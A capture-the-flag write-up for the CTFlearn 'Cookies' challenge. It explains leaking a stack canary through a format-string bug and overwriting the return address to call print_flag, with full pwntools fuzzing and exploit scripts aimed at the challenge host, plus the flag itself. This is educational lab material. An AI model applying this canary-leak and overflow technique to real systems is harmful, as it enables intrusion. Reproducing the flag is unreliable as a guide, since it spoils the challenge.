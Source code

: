 # Cookies
> Write-up author: jon-brandy
## DESCRIPTION:
Cookies are not only present in browsers, we have them in C too!

nc rivit.dev 10015

## HINT:
- NONE
## STEPS:
1. In this binary we're given a 64 bit binary, dynamically linked, and not stripped.

```
┌──(brandy㉿bread-yolk)-[~/Downloads/ctflearn/cookies]
└─$ file task        
task: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ceb8ddab0789dd0067cc00b6ee2cd69cdee07e59, for GNU/Linux 3.2.0, not stripped
```

> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/a381f906-b2d3-4dbf-824d-84de2c57e769)


2. Analyzing the source code given, the challenge is very straight-forward, it's a ret2win chall with canary.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/5ee15d0b-7648-4db4-9840-d42a2c2606fc)


3. Since there's **FSB** hence we can leak the canary easier, no need to bruteforce it.
4. Let's create the fuzzing script.

> FUZZ SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
# context.log_level = 'INFO'
context.log_level = 'ERROR'

for i in range(100):
    sh = process(exe)
    sh.sendlineafter(b':', '%{}$p'.format(i))
    get = sh.recvuntil(b'Se')
    leak = get.split(b'Se')
    leaked_can = leak[0]
    print(str(i), ':', leaked_can)
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/d27e36e7-5e8d-4f6d-bef8-28b2599d278d)


5. The payload is kinda different from the basic ret2win, since there's canary the order is:

```
padding + canary + junk + stack_align (if needed) + win_sym
```

6. Noticed we can't get the correct offset using gdb cyclic pattern because there's canary! But, we can calculate it manually.
7. We know the input buffer is 16 bytes, at stack layout there's a RET address which holds 8 bytes (in 64 bit binary). Hence the correct padding is 24 bytes.
8. Then for the junk, it's easier to guess in a decompiler, but since we have the source code, we can calculate it manually!

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/2e988880-4c20-4128-aeb1-837c21c18639)


9. At the vuln function there's no other initialized data than our buffer. Hence the junk for canary should be **0x16 - 0x8** (64 bit binary).
10. Let's craft our script.

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'
# context.log_level = 'ERROR'

# sh = remote('rivit.dev', 10015)
sh = process(exe)

sh.sendlineafter(b':', '%9$p')
get = sh.recvuntil(b'Se')
leak = get.split(b'Se')
leaked_can = leak[0]
leaked_can = int(leaked_can, 16)
success(f'CANARY --> {hex(leaked_can)}')

p = flat([
    asm('nop') * 0x18,
    leaked_can,
    b'A' * 0x8,
    elf.sym['print_flag']
])

sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT LOCALLY

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/1252b731-a6ae-4c2b-8ea2-32877e8374f2)


11. Great! Let's send it remotely!

> RESULT REMOTELY

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/61b9c48d-e3a6-4f74-bd13-69b8fdea2dd5)


12. We failed remotely, this should be because we need to add ret_gadget as a stack alignment.
13. You can use **ropper** or **ROPGadget** to grab it, but I used pwntools ROP.

> FINAL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'
# context.log_level = 'ERROR'

sh = remote('rivit.dev', 10015)
# sh = process(exe)

sh.sendlineafter(b':', '%9$p')
get = sh.recvuntil(b'Se')
leak = get.split(b'Se')
leaked_can = leak[0]
leaked_can = int(leaked_can, 16)
success(f'CANARY --> {hex(leaked_can)}')

rop = ROP(elf)
ret = rop.find_gadget(['ret']).address
info(f'RET GADGET --> {hex(ret)}')
p = flat([
    asm('nop') * 0x18,
    leaked_can,
    b'A' * 0x8,
    ret,
    elf.sym['print_flag']
])

sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/bbb6722d-ef32-42b4-9c4d-eb463cc0ea58)

14. Got the flag!

## FLAG

```
CTFlearn{d0_y0u_kn0w_why_s74ck_c00ki3_h4s_4_nu11_by73_1n_17?}
```
